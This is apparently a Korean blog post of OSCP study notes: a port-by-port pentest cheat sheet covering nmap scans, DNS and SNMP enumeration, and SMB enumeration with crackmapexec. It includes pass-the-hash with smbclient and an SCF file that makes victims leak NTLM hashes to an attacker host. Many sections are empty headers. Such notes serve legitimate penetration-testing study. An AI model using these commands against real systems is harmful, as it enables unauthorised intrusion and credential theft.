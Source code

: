 ```yaml
---
layout: post
title: OSCPv2
subtitle: OSCPv2 포트별 정리
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - OSCP
sidebar:
---
```


# Port Scan
```shell
# basic
sudo nmap -sC -sV -Pn ip -oN ip

# all port 
sudo nmap -sC -sV -Pn -p- ip -oN ip_allport

# udp
sudo nmap -sC -sV -U -Pn ip -oN ip_udp

# nse scan
sudo nmap --script-updatedb
sudo nmap -sC -sV -Pn --script script -p port ip

# In Window
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("ip", $_)) "TCP port $_ is open"} 2>$null
```

# 21 FTP
```shell
# anonymous:anonymous & ftp:ftp
ftp anonymous@ip
```
# 22 SSH
```shell
# Version Vuln Scan
# 
```

# 25, 465, 587, 2525 SMTP
```shell
# user 확인
nc -nv <ip> 25



```

# 53 DNS
```shell
# IP 찾기
host <domain>

# A레코드 검색
host -t mx <domain>
nslookup mail.megacorptwo.com # in Window

# TXT레코드 검색
host -t txt <domain>
nslookup -type=TXT <domain> <DNS_IP> # in Window

# subdomain 검색 : /usr/share/seclists 
# 없을경우 sudo apt install seclists
for ip in $(cat list.txt); do host $ip.megacorpone.com; done
for ip in $(seq 200 254); do host 000.000.000.$ip; done | grep -v "not found"

# dnsrecon / options : std, brt
dnsrecon -d <domain> -t <options> -D <wordlist>
```

# 80, 443 HTTP

# 88 Kerberos

# 161 SNMP
```shell

snmpwalk -v2c -c public <RHOST> nsExtendObjects snmpwalk -v2c -c public <RHOST> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

# 389 LDAP

# 445 SMB
```shell
# 디스크 확인
smbclient //<ip>/<Folder 명>
net view \\<AD_domain> /all # in Window

# NTML hash 사용
smbclient \\\\192.168.50.212\\secrets -U <user> --pw-nt-hash <hash>

# 공유 폴더 확인
crackmapexec smb 10.129.157.36 -u '' -p '' --shares
crackmapexec smb 10.129.157.36 -u '' -p '' --users
crackmapexec smb 10.129.157.36 -u '' -p '' --rid-brute

# 재귀로 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider <폴더명> --regex .

# 파일 얻기
get file.ext

# writable 확인
## mount
mount -t cifs -o rw,username=guest,password= '//<ip>/<폴더명>' /mnt
## writable.sh
#!/bin/bash
list=$(find /mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
## scf attack
### hash.scf
[Shell] Command=2
IconFile=\\<kali_ip>\share\pwn.ico 
[Taskbar] 
Command=ToggleDesktop
```

# 1433 MSSQL

# 3306 MYSQL

# 3389 RDP

# 5985, 5986 WINRM

# Credencial

# Windows

# Linux

# Tunneling

# Git

# Python

# Jenkins

# Metasploit

